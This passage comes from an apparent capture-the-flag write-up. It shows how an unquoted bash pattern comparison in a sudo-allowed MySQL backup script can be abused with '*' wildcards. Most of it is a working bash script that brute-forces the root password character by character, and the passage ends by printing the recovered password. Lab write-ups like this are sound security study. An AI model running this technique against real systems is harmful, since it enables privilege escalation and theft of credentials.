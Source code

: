 Now this is using bash pattern comparison `if [[ $DB_PASS == $USER_PASS ]]` and the `User_PASS` field is in our control. So, we can use `*` to brute force the password. I write the following script to make the life easy.

```bash
#!/bin/bash

COMMAND="sudo -u root /opt/scripts/mysql-backup.sh"
PRE=""

# Loop through the script multiple times
for attempt in {1..40}; do
    echo "Attempt $attempt:"
    valid_character=""

    # Loop through printable ASCII values (33-126)
    visited=0
    for ((i=33; i<=126; i++))
    do
        # Exclude specific characters '*', '\', and '?'
        if [ $i -eq 42 ] || [ $i -eq 92 ] || [ $i -eq 63 ]
        then
            continue
        else
            # Convert ASCII value to character
            input=$(printf "\\$(printf '%03o' $i)")
            input_with_star="$PRE$input*"
            # echo "Input: $input_with_star"

            # Execute the command with the current input
            result=$(echo -n "$input_with_star" | $COMMAND)
            
            # Check if result is not "Password confirmation failed!"
            if [[ "$result" != *"Password confirmation failed!"* ]]; then
                echo "Valid character found: $input"
                valid_character="$input"
                PRE="$PRE$input"
                visited=1
                break  # Exit the inner loop if a valid character is found
            fi
        fi
    done
    if [ $visited -eq 0 ]
    then
    echo "Password = $PRE"
    break
    fi
done
```

After running the code, I finally got the root password `kljh12k3jhaskjh12kjh3`
